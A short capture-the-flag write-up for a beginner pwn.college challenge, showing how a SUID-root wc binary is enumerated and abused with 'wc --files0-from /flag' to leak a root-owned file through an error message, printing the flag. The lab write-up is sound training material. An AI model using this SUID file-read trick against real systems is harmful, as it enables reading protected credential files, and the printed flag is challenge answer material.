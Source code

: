 # Challenge Name: wc
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/wc`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/wc
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/wc
```

- The `s` in `-rws` indicates it's a SUID binary.
- `wc` runs with **root privileges**.

## 🚀 Exploitation

The `wc` just count number of characters from a file , but heres a exploit to reveal the flag: 

```bash
wc --files0-from /flag
```

Output:
```
wc: 'pwn.college{0u-obrUsJXcx8pEqEs56crHU0JI.dlDOxwSM0IzMyEzW}'$'\n': No such file or directory
```

